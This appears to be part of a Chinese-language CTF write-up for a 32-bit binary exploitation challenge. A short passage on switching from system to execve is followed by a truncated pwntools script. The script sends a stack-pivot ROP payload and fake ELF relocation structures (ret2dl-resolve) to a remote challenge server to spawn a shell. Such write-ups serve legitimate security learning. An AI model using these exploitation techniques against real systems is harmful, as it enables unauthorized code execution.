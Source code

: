 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2019/09/30/uYX42j.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2019/09/30/uYXoMn.png)

但是依旧没弹出shell，参数和system都没有错。

后来忽然脑海里想象出了大师傅的一句话，用execve，别用system。

于是，换成execve就解决了[execve要设置三个参数/bin/sh ，0 ，0]

最终脚本：

```
# -*- coding: utf-8 -*-
from pwn import *

#p=process('./pwn01')
p=remote("39.100.87.24",8101)
#gdb.attach(p,'b *0x80484b1')

Address=0x12345678
fake_ecx=0x804a05a

buf=0x804a040
fake_esp=fake_ecx-0x4
base_stage=fake_esp+0x800
read_plt=0xf7ed2b00
stack_size=0x500

gadget1=0x0804851b #pop ebp |ret
gadget2=0x08048519 #  pop esi ; pop edi ; pop ebp ; ret
gadget3=0x080483c5 #
#New stack
payload="A"*0xe
payload+=p32(fake_ecx)
payload+="BBBB"
#payload+=p32(read_plt)
#payload+=p32(gadget2)
#payload+=p32(0)+p32(base_stage)+p32(100)
payload+=p32(gadget1)
payload+=p32(base_stage)
payload+=p32(gadget3)
payload+=p32(base_stage+stack_size)
#p.sendline(payload)

#struct
dynsym=0x080481cc
dynstr=0x0804822c
plt0=0x80482f0
rel_plt=0x080482b4

reloc_arg=0x804a872-rel_plt #fang hou mian yidian ,hui bei fugai
r_offset=0x0804a00c #read_got

fake_sym_addr=0x804a87a
align=0x10-((fake_sym_addr-dynsym)&amp;0xf) #align=8#栈对齐
fake_sym_addr=fake_sym_addr+align
r_info=((fake_sym_addr-dynsym)/0x10)&lt;&lt;8|0x7
#r_info=0x107

fake_rel=p32(r_offset)+p32(r_info)
bin_sh=0x804a8e3
```